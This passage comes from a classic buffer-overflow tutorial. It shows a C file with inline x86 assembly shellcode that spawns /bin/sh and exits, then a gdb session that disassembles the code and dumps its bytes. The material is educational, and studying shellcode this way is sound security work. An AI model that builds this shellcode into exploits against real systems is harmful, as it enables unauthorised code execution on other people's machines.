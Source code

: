 {% highlight C %}
shellcodeasm.c
------------------------------------------------------------------------------
void main() {
__asm__("
        jmp    0x2a                     # 3 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x8(%esi)           # 3 bytes
        movb   $0x0,0x7(%esi)           # 4 bytes
        movl   $0x0,0xc(%esi)           # 7 bytes
        movl   $0xb,%eax                # 5 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x8(%esi),%ecx           # 3 bytes
        leal   0xc(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        movl   $0x1, %eax               # 5 bytes
        movl   $0x0, %ebx               # 5 bytes
        int    $0x80                    # 2 bytes
        call   -0x2f                    # 5 bytes
        .string \"/bin/sh\"             # 8 bytes
");
}
------------------------------------------------------------------------------
{% endhighlight %}

```
------------------------------------------------------------------------------
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c
[aleph1]$ gdb shellcodeasm
GDB is free software and you are welcome to distribute copies of it
 under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details.
GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 <main>:       pushl  %ebp
0x8000131 <main+1>:     movl   %esp,%ebp
0x8000133 <main+3>:     jmp    0x800015f <main+47>
0x8000135 <main+5>:     popl   %esi
0x8000136 <main+6>:     movl   %esi,0x8(%esi)
0x8000139 <main+9>:     movb   $0x0,0x7(%esi)
0x800013d <main+13>:    movl   $0x0,0xc(%esi)
0x8000144 <main+20>:    movl   $0xb,%eax
0x8000149 <main+25>:    movl   %esi,%ebx
0x800014b <main+27>:    leal   0x8(%esi),%ecx
0x800014e <main+30>:    leal   0xc(%esi),%edx
0x8000151 <main+33>:    int    $0x80
0x8000153 <main+35>:    movl   $0x1,%eax
0x8000158 <main+40>:    movl   $0x0,%ebx
0x800015d <main+45>:    int    $0x80
0x800015f <main+47>:    call   0x8000135 <main+5>
0x8000164 <main+52>:    das
0x8000165 <main+53>:    boundl 0x6e(%ecx),%ebp
0x8000168 <main+56>:    das
0x8000169 <main+57>:    jae    0x80001d3 <__new_exitfn+55>
0x800016b <main+59>:    addb   %cl,0x55c35dec(%ecx)
End of assembler dump.
(gdb) x/bx main+3
0x8000133 <main+3>:     0xeb
(gdb)
0x8000134 <main+4>:     0x2a
(gdb)
.
.
```